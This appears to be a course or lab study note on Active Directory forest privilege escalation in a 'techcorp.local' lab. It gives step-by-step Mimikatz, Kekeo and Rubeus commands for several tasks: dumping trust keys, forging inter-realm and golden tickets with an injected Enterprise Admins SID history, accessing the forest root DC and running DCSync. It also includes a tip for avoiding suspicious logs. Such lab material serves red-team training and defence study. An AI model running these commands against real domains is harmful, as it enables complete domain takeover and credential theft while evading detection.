


# Cross Domain Attacks - Forest Root - Trust Key & krbtgt

- [Cross Domain Attacks - Forest Root - Trust Key & krbtgt](#cross-domain-attacks---forest-root---trust-key--krbtgt)
  - [Cross Domain Attacks - Forest Root](#cross-domain-attacks---forest-root)
  - [Trust Key](#trust-key)
  - [krbtgt](#krbtgt)

---

## Cross Domain Attacks - Forest Root

Domains in same forest have an **implicit two-way trust with other domains**. There is a **trust key** between the parent and child domains.

**SIDHistory** can be abused in two ways of escalating privileges within a forest:

- `krbtgt` hash of the child
- Trust tickets

All the Privilege Escalation to `techcorp.local` we have seen till now needs some misconfiguration. These ones are 'working as intended'.

<br/>

**Child to Forest Root Trust Flow**

  

**Child to Forest Root Trust Flow Abuse**

  

<br/>

## Trust Key

So, what is required to forge trust tickets is, obviously, the trust key. Look for **trust key** from child to parent.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName us-dc
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

We can also use any of the earlier discussed tools to extract trust keys.

<br/>

Forge an inter-realm TGT:

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

| Mimikatz Parameters | |
|----|----|
|`kerberos::golden` | The mimikatz module |
|`/domain:us.techcorp.local` | FQDN of the current domain |
|`/sid:S-1-5-21-210670787-2521448726-163245708` | SID of the current domain (Can be obtained using `whoami /all`) |
|`/sids:S-1-5-21-2781415573-3701854478-2406986946-519` | SID of the Enterprise Domain Admins group (Enterprise Admins Group is always `519`; Domain SID can be obtained using `Get-DomainSID -Domain techcorp.local` of PowerView) |
|`/rc4:b59ef5860ce0aa12429f4f61c8e51979` | RC4 of the trust key |
|`/user:Administrator` | User to impersonate |
|`/service:krbtgt` | Target service in the parent domain |
|`/target:techcorp.local` | FQDN of the parent domain |
|`/ticket:C:\AD\Tools\kekeo\trust_tkt.kirbi` | Path where ticket to be saved |

<br/>

Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo (https://github.com/gentilkiwi/kekeo/):

```
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
```

or using older version of `Kekeo`:

```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

<br/>

Use the TGS to access the targeted service (may need to use it twice).

```
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCA L@US.TECHCORP.LOCAL.kirbi
```

or

```
.\kirbikator.exe lsa .\CIFS.techcorpdc.techcorp.local.kirbi
```

Then try to list the forest DC:

```
ls \\techcorp-dc.techcorp.local\c$
```

<br/>

Alternatively, we can use `Rubeus.exe`:

```
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorpdc.techcorp.local /ptt
```

```
ls \\techcorp-dc.techcorp.local\c$
```

<br/>

---

## krbtgt

We will abuse SID history once again:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt"'
```

- In the above command, the mimkatz option `/sids` is forcefully setting the SID History for the Enterprise Admin group for `us.techcorp.local` that is the Forest Enterprise Admin Group.

<br/>

We can now access techcorp-dc as Administrator:

```
ls \\techcorp-dc.techcorp.local\C$
```

```
Enter-PSSession techcorp-dc.techcorp.local
```

<br/>

To avoid suspicious logs, we can make use of the **Domain Controllers group**:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```

- Domain Controllers: `S-1-5-21-2781415573-3701854478-2406986946-516`
- Enterprise Domain Controller: `S-1-5-9`

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
```

<br/>

